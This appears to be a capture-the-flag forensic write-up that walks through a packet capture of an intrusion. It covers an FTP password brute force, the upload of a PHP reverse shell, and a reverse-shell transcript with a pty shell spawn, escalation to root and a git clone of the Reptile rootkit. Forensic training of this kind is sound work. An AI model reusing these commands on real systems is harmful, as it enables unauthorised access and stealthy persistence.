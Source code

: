 ### Task 1

#### The attacker is trying to log into a specific service. What service is this ?

The protocol column starts win TCP until it shows a line with FTP :

> Line 49	0.029836461	192.168.0.115	192.168.0.147	FTP	88	Response: 220 Hello FTP World!

#### There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool ?

Google "Van Hauser brute force FTP".

#### The attacker is trying to log on with a specific username. What is the username ?

> Line 81	0.354319120	192.168.0.147	192.168.0.115	FTP	78	Request: USER jenny

#### What is the user's password ?

> Line 394	13.968715114	192.168.0.147	192.168.0.115	FTP	84	Request: PASS password123
> 
> Line 395	14.002582310	192.168.0.115	192.168.0.147	FTP	89	Response: 230 Login successful.

#### What is the current FTP working directory after the attacker logged in ?

Search for the last line where Protocol is FTP :

> Line 442	28.216001461	192.168.0.115	192.168.0.147	FTP	80	Response: 221 Goodbye.
> 
> [Current working directory: /var/www/html]

#### The attacker uploaded a backdoor. What is the backdoor's filename ?

> Line 431	19.324910508	192.168.0.147	192.168.0.115	FTP-DATA	5559	FTP Data: 5493 bytes (PORT) (STOR shell.php)
> 
> Line 438	22.682708871	192.168.0.147	192.168.0.115	FTP	92	Request: SITE CHMOD 777 shell.php

First line where protocol is HTTP :

> Line 450	32.245529788	192.168.0.147	192.168.0.115	HTTP	407	GET /shell.php HTTP/1.1

Right click on it to see a full description :

> Frame 450: 407 bytes on wire (3256 bits), 407 bytes captured (3256 bits) on interface eth0, id 0
> 
> Ethernet II, Src: VMware_4a:b9:cd (00:0c:29:4a:b9:cd), Dst: PcsCompu_92:a2:af (08:00:27:92:a2:af)
> 
> Internet Protocol Version 4, Src: 192.168.0.147, Dst: 192.168.0.115
> 
> Transmission Control Protocol, Src Port: 52670, Dst Port: 80, Seq: 1, Ack: 1, Len: 341
> 
> Hypertext Transfer Protocol
>     GET /shell.php HTTP/1.1\r\n
>     Host: 192.168.0.115\r\n
>     User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n
>     Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n
>     Accept-Language: en-US,en;q=0.5\r\n
>     Accept-Encoding: gzip, deflate\r\n
>     DNT: 1\r\n
>     Connection: keep-alive\r\n
>     Upgrade-Insecure-Requests: 1\r\n
>     \r\n
>     [Full request URI: http://192.168.0.115/shell.php]
>     [HTTP request 1/1]`

#### The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL ?

In the description of the FTP-DATA frame :

> // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.\n

#### Which command did the attacker manually execute after getting a reverse shell ?

Right-click on the TCP lines below the HTTP one and select Follow -> TCP until you find something interesting :

Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:26:54 up  2:21,  1 user,  load average: 0.02, 0.07, 0.08  <BR>
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT  <BR>
jenny    tty1     -                20:06   37.00s  1.00s  0.14s -bash  <BR>
uid=33(www-data) gid=33(www-data) groups=33(www-data)  <BR>
/bin/sh: 0: can't access tty; job control turned off  <BR>
$ whoami  <BR>
www-data  <BR>
$ ls -la  <BR>
total 1529956  <BR>
drwxr-xr-x  23 root root       4096 Feb  1 19:52 .  <BR>
drwxr-xr-x  23 root root       4096 Feb  1 19:52 ..  <BR>
drwxr-xr-x   2 root root       4096 Feb  1 20:11 bin  <BR>
drwxr-xr-x   3 root root       4096 Feb  1 20:15 boot  <BR>
drwxr-xr-x  18 root root       3880 Feb  1 20:05 dev  <BR>
drwxr-xr-x  94 root root       4096 Feb  1 22:23 etc  <BR>
drwxr-xr-x   3 root root       4096 Feb  1 20:05 home  <BR>
lrwxrwxrwx   1 root root         34 Feb  1 19:52 initrd.img -> boot/initrd.img-4.15.0-135-generic  <BR>
lrwxrwxrwx   1 root root         33 Jul 25  2018 initrd.img.old -> boot/initrd.img-4.15.0-29-generic  <BR>
drwxr-xr-x  22 root root       4096 Feb  1 22:06 lib  <BR>
drwxr-xr-x   2 root root       4096 Feb  1 20:08 lib64  <BR>
drwx------   2 root root      16384 Feb  1 19:49 lost+found  <BR>
drwxr-xr-x   2 root root       4096 Jul 25  2018 media  <BR>
drwxr-xr-x   2 root root       4096 Jul 25  2018 mnt  <BR>
drwxr-xr-x   2 root root       4096 Jul 25  2018 opt  <BR>
dr-xr-xr-x 117 root root          0 Feb  1 20:23 proc  <BR>
drwx------   3 root root       4096 Feb  1 22:20 root  <BR>
drwxr-xr-x  29 root root       1040 Feb  1 22:23 run  <BR>
drwxr-xr-x   2 root root      12288 Feb  1 20:11 sbin  <BR>
drwxr-xr-x   4 root root       4096 Feb  1 20:06 snap  <BR>
drwxr-xr-x   3 root root       4096 Feb  1 20:07 srv  <BR>
-rw-------   1 root root 1566572544 Feb  1 19:52 swap.img  <BR>
dr-xr-xr-x  13 root root          0 Feb  1 20:05 sys  <BR>
drwxrwxrwt   2 root root       4096 Feb  1 22:25 tmp  <BR>
drwxr-xr-x  10 root root       4096 Jul 25  2018 usr  <BR>
drwxr-xr-x  14 root root       4096 Feb  1 21:54 var  <BR>
lrwxrwxrwx   1 root root         31 Feb  1 19:52 vmlinuz -> boot/vmlinuz-4.15.0-135-generic  <BR>
lrwxrwxrwx   1 root root         30 Jul 25  2018 vmlinuz.old -> boot/vmlinuz-4.15.0-29-generic  <BR>
$ python3 -c 'import pty; pty.spawn("/bin/bash")'  <BR>
www-data@wir3:/$ su jenny  <BR>
su jenny  <BR>
Password: password123  <BR>
  <BR>
jenny@wir3:/$ sudo -l  <BR>
sudo -l  <BR>
[sudo] password for jenny: password123  <BR>
  <BR>
Matching Defaults entries for jenny on wir3:  <BR>
    env_reset, mail_badpass,  <BR>
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  <BR>
  <BR>
User jenny may run the following commands on wir3:  <BR>
    (ALL : ALL) ALL  <BR>
jenny@wir3:/$ sudo su  <BR>
sudo su  <BR>
root@wir3:/# whoami  <BR>
whoami  <BR>
root  <BR>
root@wir3:/# cd  <BR>
cd  <BR>
root@wir3:\~# git clone https://github.com/f0rb1dd3n/Reptile.git  <BR>
git clone https://github.com/f0rb1dd3n/Reptile.git  <BR>
Cloning into 'Reptile'...  <BR>
remote: Enumerating objects: 217, done..[K  <BR>
remote: Counting objects:   0% (1/217).[K  <BR>
...  <BR>
remote: Counting objects: 100% (217/217), done..[K  <BR>
remote: Compressing objects:   0% (1/152).[K  <BR>
...  <BR>
remote: Compressing objects: 100% (152/152), done..[K  <BR>
Receiving objects:   0% (1/1010)     <BR>
...  <BR>
Receiving objects: 100% (1010/1010), 472.55 KiB | 1.73 MiB/s, done.  <BR>
Resolving deltas:   0% (0/499)     <BR>
...  <BR>
Resolving deltas: 100% (499/499), done.  <BR>
root@wir3:\~# cd Reptile  <BR>
cd Reptile  <BR>
root@wir3:\~/Reptile# ls -la  <BR>
ls -la  <BR>
total 44  <BR>
drwxr-xr-x 7 root root 4096 Feb  1 22:27 .  <BR>
drwx------ 4 root root 4096 Feb  1 22:27 ..  <BR>
drwxr-xr-x 2 root root 4096 Feb  1 22:27 configs  <BR>
drwxr-xr-x 8 root root 4096 Feb  1 22:27 .git  <BR>
-rw-r--r-- 1 root root    8 Feb  1 22:27 .gitignore  <BR>
-rw-r--r-- 1 root root 1922 Feb  1 22:27 Kconfig  <BR>
drwxr-xr-x 7 root root 4096 Feb  1 22:27 kernel  <BR>
-rw-r--r-- 1 root root 1852 Feb  1 22:27 Makefile  <BR>
-rw-r--r-- 1 root root 2183 Feb  1 22:27 README.md  <BR>
drwxr-xr-x 4 root root 4096 Feb  1 22:27 scripts  <BR>
drwxr-xr-x 6 root root 4096 Feb  1 22:27 userland  <BR>
root@wir3:\~/Reptile# make  <BR>
make  <BR>
make[1]: Entering directory '/root/Reptile/userland'  <BR>
Makefile:10: ../.config: No such file or directory  <BR>
make[1]: *** No rule to make target '../.config'.  Stop.  <BR>
make[1]: Leaving directory '/root/Reptile/userland'  <BR>
Makefile:56: recipe for target 'userland_bin' failed  <BR>
make: *** [userland_bin] Error 2  <BR>
root@wir3:\~/Reptile#  <BR>

whoami

#### What is the computer's hostname ?

wir3

#### Which command did the attacker execute to spawn a new TTY shell ?

python3 -c 'import pty; pty.spawn("/bin/bash")'

#### Which command was executed to gain a root shell ?

sudo su

#### The attacker downloaded something from GitHub. What is the name of the GitHub project ?

git clone https://github.com/f0rb1dd3n/Reptile.git

#### The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called ?

Rootkit.

### Task 2

